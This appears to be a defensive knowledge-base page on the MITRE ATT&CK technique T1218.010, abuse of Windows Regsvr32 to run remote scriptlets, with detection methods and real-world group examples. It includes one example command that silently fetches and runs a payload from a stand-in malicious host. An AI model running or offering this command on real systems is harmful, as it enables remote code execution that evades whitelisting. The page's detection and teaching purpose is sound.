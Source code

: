 ```yaml
---
description: Regsvr32 [T1218.010]
icon: lock
---
```


# Regsvr32

## Information

- Name: Regsvr32
- ID: T1218.010
- Tactics: [TA0005](../TA0005/TA0005.md)
- Technique: [T1218](T1218.md)

## Introduction

Regsvr32 (T1218.010) is a sub-technique within the MITRE ATT\&CK framework under the broader category of "Signed Binary Proxy Execution." Attackers leverage Regsvr32, a legitimate Windows command-line utility, to execute arbitrary code, bypass application whitelisting, and evade detection by security mechanisms. Regsvr32 is primarily designed to register and unregister Object Linking and Embedding (OLE) controls, such as DLL files, in the Windows registry. However, adversaries abuse this legitimate functionality to execute malicious scripts without directly calling suspicious binaries or executables.

## Deep Dive Into Technique

Regsvr32 is a legitimate Windows utility typically located at `%SystemRoot%\System32\regsvr32.exe`. It is designed to register and unregister DLL files and ActiveX controls into the Windows registry, enabling their use by other applications. Attackers exploit Regsvr32's built-in capability to execute scripts remotely or locally, making it a powerful tool for circumventing security controls.

Technical details include:

- **Execution Method:**
  - Attackers use the `/i` option to specify a DLL or script file.
  - The `/s` switch can be used to suppress error messages and dialogs, making execution stealthy.
  - Regsvr32 can be instructed to download and execute scripts directly from remote URLs, allowing attackers to host malicious payloads externally.
- **Example Command Syntax:**

  ```cmd
  regsvr32.exe /s /u /i:http://malicious.example.com/payload.sct scrobj.dll
  ```

  Explanation of parameters:

  - `/s`: Silent mode, suppresses error messages.
  - `/u`: Unregisters the DLL; in combination with `/i`, it allows execution without actual registration.
  - `/i`: Specifies the script or DLL to execute.
  - `scrobj.dll`: Microsoft’s script component runtime DLL, commonly used by attackers to execute scriptlets (.sct files).

- **Mechanisms and Real-World Procedures:**
  - Attackers commonly host malicious COM scriptlets (.sct files) remotely to bypass local detection.
  - Payloads executed via Regsvr32 can include malware downloaders, reverse shells, or other malicious scripts.
  - The technique leverages legitimate Windows binaries ("living off the land") to evade endpoint security tools.

## When this Technique is Usually Used

Attackers commonly leverage Regsvr32 (T1218.010) in various stages of the cyberattack lifecycle, including:

- **Initial Access and Execution:**
  - Phishing campaigns delivering malicious scripts or documents that invoke Regsvr32 commands.
  - Drive-by download attacks where users inadvertently execute scripts that invoke Regsvr32.
- **Defense Evasion:**
  - Bypassing application whitelisting and execution policies, as Regsvr32 is typically allowed by default.
  - Evading detection by leveraging legitimate Windows utilities rather than suspicious executables.
- **Persistence and Lateral Movement:**
  - Attackers may use Regsvr32 commands within scheduled tasks or registry keys for persistent execution.
  - Leveraged during lateral movement to execute code remotely across compromised systems.

## How this Technique is Usually Detected

Detecting the misuse of Regsvr32 involves monitoring and logging its execution patterns and behaviors. Effective detection methods include:

- **Command Line Monitoring:**
  - Implementing endpoint detection and response (EDR) tools to monitor and analyze command-line arguments passed to `regsvr32.exe`.
  - Detecting suspicious parameters such as `/u`, `/i`, and remote URLs in command execution.
- **Process Monitoring and Behavioral Analysis:**
  - Monitoring parent-child process relationships involving `regsvr32.exe`.
  - Alerting on unusual network connections initiated by Regsvr32, especially to external IP addresses or domains.
- **Network Traffic Analysis:**
  - Monitoring outbound HTTP/HTTPS connections initiated by Regsvr32 to external URLs.
  - Identifying downloads of scriptlets (.sct files) or DLL files from suspicious or uncategorized domains.
- **Indicators of Compromise (IoCs):**
  - Suspicious command-line parameters involving remote URLs (e.g., `/i:http://`).
  - Unusual scriptlet (.sct) files or DLLs hosted remotely.
  - Unexpected network requests from Regsvr32 to external IP addresses or domains.

## Why it is Important to Detect This Technique

Early detection of Regsvr32 misuse is critical due to its potential impacts on systems and networks, including:

- **Bypassing Security Controls:**
  - Attackers exploit trusted system utilities, circumventing traditional antivirus, application whitelisting, and endpoint security solutions.
- **Enabling Malware Delivery and Execution:**
  - Allows attackers to download and execute malicious payloads remotely, facilitating further compromise, data exfiltration, or ransomware deployment.
- **Persistence and Stealth:**
  - Attackers may establish persistent footholds, making detection and remediation significantly more challenging.
  - Abuse of legitimate binaries reduces the likelihood of detection, prolonging attacker dwell time and increasing potential damage.
- **Potential for Rapid Lateral Movement:**
  - Regsvr32 abuse can facilitate lateral movement across internal networks, increasing the scope and severity of a breach.

## Examples

Real-world examples of Regsvr32 misuse include:

- **APT32 (OceanLotus):**
  - Utilized Regsvr32 to execute remote scriptlets hosted on attacker-controlled servers, bypassing endpoint protections.
  - Delivered malicious payloads to targeted organizations in Southeast Asia.
- **FIN7 Cybercrime Group:**
  - Used Regsvr32 commands embedded in malicious documents or scripts to download and execute payloads, enabling initial access and subsequent lateral movement within victim environments.
- **PowerDuke Malware Campaign:**
  - Leveraged Regsvr32 to execute scriptlets (.sct files) hosted remotely, enabling stealthy malware delivery and execution on targeted systems.
- **"Squiblydoo" Technique:**
  - Publicly documented by security researcher Casey Smith, demonstrating how attackers could abuse Regsvr32 to execute malicious scripts remotely, bypassing application whitelisting and endpoint security solutions.

In these examples, attackers exploited legitimate Windows utilities to evade detection, execute malicious payloads, and establish persistent access within victim environments.
